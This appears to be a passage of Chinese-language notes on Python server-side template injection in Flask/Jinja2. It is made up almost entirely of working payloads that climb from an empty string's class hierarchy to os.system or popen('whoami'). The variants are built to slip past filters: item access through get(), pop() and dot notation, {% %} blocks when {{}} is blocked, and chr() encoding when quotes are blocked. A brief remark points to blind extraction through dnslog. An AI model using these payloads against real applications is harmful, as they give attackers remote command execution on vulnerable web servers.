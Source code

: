 使用 `__getitem__` 方法

```python
''.__class__.__mro__.__getitem__(-1).__subclasses__().__getitem__(72).__init__.__globals__.__getitem__('os').system('whoami')
```

使用 `get()`, 仅限 dict

```python
''.__class__.__mro__.__getitem__(-1).__subclasses__().get(72).__init__.__globals__.get('os').system('whoami')
```

使用 `pop()`, 会**删数据**, 但对于这个表达式的 list 来说使用没有问题

```python
().__class__.__base__.__subclasses__().pop(72).__init__.__globals__.get('os').system('whoami')
```

使用用 `.` 访问, 仅限 dict

```python
''.__class__.__mro__.__getitem__(-1).__subclasses__().__getitem__(72).__init__.__globals__.os.system('whoami')

''.__class__.__mro__.__getitem__(-1).__subclasses__().__getitem__(59).__init__.__globals__.linecache.os.popen('whoami').read()
```

Flask 环境下测试成功, 但在 python shell 中运行会报错

### 过滤 {{}}

使用`{% %}`

```python
{%if ''.__class__.__mro__[-1].__subclasses__()[72].__init__.__globals__['os'].popen('whoami').read() == 'root' %}
1
{% endif %}
```

在 `{% %}` 中语句的输出内容无法回显, 只能盲注或者用 dnslog 回显

### 过滤引号

chr, 上面提到过

```python
# flask environment
{% set chr=().__class__.__mro__[-1].__subclasses__()[59].__init__.__globals__.__builtins__.chr %}
```

```python
''.__class__.__mro__[-1].__subclasses__()[72].__init__.__globals__[chr(111)+chr(115)].__dict__[chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)](chr(119)+chr(104)+chr(111)+chr(97)+chr(109)+chr(105)) # os.system('whoami')
```
